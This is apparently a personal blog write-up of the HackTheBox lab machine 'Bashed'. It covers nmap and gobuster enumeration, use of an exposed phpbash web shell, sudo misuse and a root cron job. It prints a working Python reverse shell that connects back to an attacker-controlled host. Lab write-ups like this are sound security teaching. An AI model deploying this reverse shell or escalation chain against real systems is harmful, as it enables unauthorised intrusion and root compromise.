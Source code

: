 ```yaml
---
layout: single
title: HackTheBox - Bashed Writeup
permalink: /hackthebox-bashed-writeup/
excerpt: "Bashed is an easy machine from Hack the Box. This is a really old machine. This machine focuses on file misconfiguration and the dangerous let the web shell out in the open. Like I say, this is an old machine, we have a bunch possibility to learn such as kernel exploit, etc."
classes: wide
header:
  teaser: "/assets/images/htb/bashed/Bashed.png"
  teaser_home_page: true  
categories:
  - hackthebox
  - linux
  - infosec
  - easy-htb
  - writeup
tags:
  - python
  - gobuster
  - crontab
  - file-misconfiguration
---
```


![1](/assets/images/htb/bashed/Bashed.png)

### <font color="#9bffc8">Nmap</font>

As always. I'm gonna run the Nmap scan. Here is the result of the scan.

### result

```sql
# Nmap 7.92 scan initiated Sat Feb 26 01:50:32 2022 as: nmap -sC -sV -oN nmap/bashed 10.10.10.68
Nmap scan report for 10.10.10.68
Host is up (0.054s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Arrexel's Development Site
|_http-server-header: Apache/2.4.18 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Feb 26 01:50:44 2022 -- 1 IP address (1 host up) scanned in 12.17 seconds
```

port `80/HTTP` is the only one open.

### <font color="#9bffc8">Http</font>

Let's take a look at the website. 

![1](/assets/images/htb/bashed/website.png)

Turns out, the `phpbash` is a web shell. Well, it is an open-source project and I found the GitHub link on the site itself.

```bash
https://github.com/Arrexel/phpbash
```

On the GitHub page. The `phpbash` location looks like at the uploads directory. However, when I went to the uploads directory it's nothing there.

![1](/assets/images/htb/bashed/upload_dir.png)

### <font color="#9bffc8">Gobuster</font>

So, I'm gonna run the `gobuster` to search all hidden directories. It found a bunch of directories but the `/dev` really caught my eye.

![1](/assets/images/htb/bashed/gobuster.png)

### <font color="#9bffc8">/dev</font>

Let's take a look at the `/dev` directory. Wow! found it. Now, I'm just clicking the `phpbash.php` and I've got the web shell as the `www-data` user. 

![1](/assets/images/htb/bashed/dev.png)

![1](/assets/images/htb/bashed/web_shell.png)

### <font color="#9bffc8">Reverse Shell</font>

Let's try to get the proper reverse shell. I have already tried a bunch of things to gain the reverse shell. However, the `base64` method seems to be working.

So, the first thing is I'm gonna encoded this `bash reverse shell` into `base64`

![1](/assets/images/htb/bashed/b64.png)

Then, I'm gonna put it into the input of `phpbash`. Down below; is a syntax should be.  Make sure to set up an `nc` listener first. 

![1](/assets/images/htb/bashed/bs64_webshell.png)

![1](/assets/images/htb/bashed/got_the_shell.png)

### <font color="#9bffc8">Upgrade shell using python</font>

YES! I got the shell. Let's upgrade this shell into a proper shell. First, let's import called `/bin/bash` using python with `pty module`. Then, export the terminal to have the clear screen and press `Ctrl + Z` to put it, into the background. Last, type the `stty raw -echo; fg` and press `Enter` 2 times, and there you go!

```bash
-> python3 -c 'import pty;pty.spawn("/bin/bash")'
-> export TERM=xterm
Ctrl + Z 
-> stty raw -echo; fg
```

### <font color="#9bffc8">User scriptmanager</font>

The first thing a love to do when get access to the machine. I love to check the sudo permission. Let's check it with `sudo -l`. Shockingly, I can run the `sudo` with the `www-data` user. 

![1](/assets/images/htb/bashed/scriptmanager.png)

Looks like, I can run any command with the `scriptmanager` user without authentication. Well, let's change into that user with this syntax;

```bash
sudo -u scriptmanager bash
```

![1](/assets/images/htb/bashed/change_2_scriptmanager.png)

### <font color="#9bffc8">/scripts</font>

This is caught by surprise. I found the `/scripts` directory located in the base `/`. Luckily, I already become the `scriptmanager`. Let's take a peek into the particular directory.

![1](/assets/images/htb/bashed/script_dir.png)

So, the directory content 2 files are called `test.py` and `test.txt`. However, the test.txt is owned by the `root` user. After endless investigation ;) Looks like any python file in here is gonna run by root. Like a `cronjob`.

![1](/assets/images/htb/bashed/contents.png)

### <font color="#9bffc8">Root Shell</font>

What we know. Any python file in that directory got to execute. So, I'm gonna make a `python file` that contains `reverse shell`. After, all set up just wait for a minute, and BOOM! <br>
_<font color="yellow">make sure to setup nc listener first</font>_

```python
# Python Reverse Shell
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("TUN0",PORT))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
import pty; pty.spawn("/bin/bash")
```

![1](/assets/images/htb/bashed/petai_root.png)
